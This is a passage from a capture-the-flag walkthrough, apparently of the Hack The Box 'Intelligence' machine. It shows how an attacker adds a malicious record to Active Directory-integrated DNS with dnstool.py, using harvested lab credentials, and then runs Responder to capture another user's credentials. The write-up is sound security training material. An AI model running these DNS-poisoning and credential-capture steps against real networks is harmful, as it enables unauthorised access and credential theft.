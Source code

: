 ![Internal IT Update PDF](/img/posts/intelligence/web3.png){:class="img-responsive"}
After a bit of research, it appears that the script utilizes Active Directory-Integrated DNS (ADIDNS), which might be exploitable in combination with the gift that keeps on giving: Responder. Essentially, any valid domain user can add a record to the DNS server by taking advantage of the insecure-by-default configurations of DNS dynamic updates. So long as a DNS record does not currently exist for a given domain, any valid domain user can create a domain record within the DNS server. For the purpose of exploiting this script, I can create a subdomain of `intelligence.htb` that begins with `web`. After doing so, the `Ted.Graves` user should attempt to connect to our domain and provide his credentials along with it. By running Responder, I should be able to catch the credentials coming across the wire:
```shell
┌──(kali@kali)-[/opt]
└─$ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --record 'webbyboy.intelligence.htb' --action add --data 10.10.14.22 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/opt/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
    res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```
```shell
┌──(kali@kali)-[/opt]
└─$ sudo responder -I tun0 -A -w
                                            __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                    |__|

            NBT-NS, LLMNR & MDNS Responder 3.0.6.0

```